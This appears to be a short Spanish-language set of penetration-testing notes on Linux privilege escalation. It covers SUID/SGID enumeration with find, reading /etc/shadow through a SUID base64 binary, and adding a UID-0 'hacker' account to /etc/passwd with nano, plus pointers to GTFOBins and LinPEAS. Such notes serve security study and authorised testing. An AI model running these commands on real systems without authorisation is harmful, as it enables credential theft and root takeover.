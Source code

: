 # Tools and Methodology PrivEsc

## Methodology

.

{% code overflow="wrap" %}
```bash
# para obtener todos los SUID
find / -perm -4000 2>/dev/null

# para obtener todos los SGID/"GUID"
find / -perm -2000 2>/dev/null

# encuentra todos los sticky bits
find / -perm -1000 2>/dev/null

# Buscar en GTFOBins si alguno de los programas listados anteriormente tiene SUID

# Seguir los pasos y explotar

Otro:
# Enumerar los archivos que tienen configurados los bits SUID o SGID
find / -type f -perm -04000 -ls 2>/dev/null
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

Ejemplos de aplicaciones:

* Base64

{% code overflow="wrap" %}
```bash
LFILE=/etc/shadow  #Ponemos en variable LFILE el archivo con priv que queremos leer
/usr/bin/base64 "$LFILE" | base64 --decode #Ejecutamos lectura con base64 que tiene SUID
```
{% endcode %}

* Nano

{% code overflow="wrap" %}
```bash
# Generar un valor hash de la contraseña que queremos que tenga el nuevo usuario con openssl
openssl passwd -a salt <algo> <password>
# Luego agregaremos esta contraseña con un nombre de usuario al /etc/passwd archivo abriendo con sudo porque tiene el bit SUID
sudo nano /etc/passwd
hacker:<hash>:0:0:root:/root:/bin/bash
#cambiar a ese usuario
su hacker
```
{% endcode %}

![](<../.gitbook/assets/image (6).png>)

## Tools

GTFOBins: a curated list of Unix binaries that can be used to bypass local security restrictions in misconfigured systems.

{% embed url="https://gtfobins.github.io/" %}
GTFOBins link
{% endembed %}

LinPEAS & WinPEAS:&#x20;

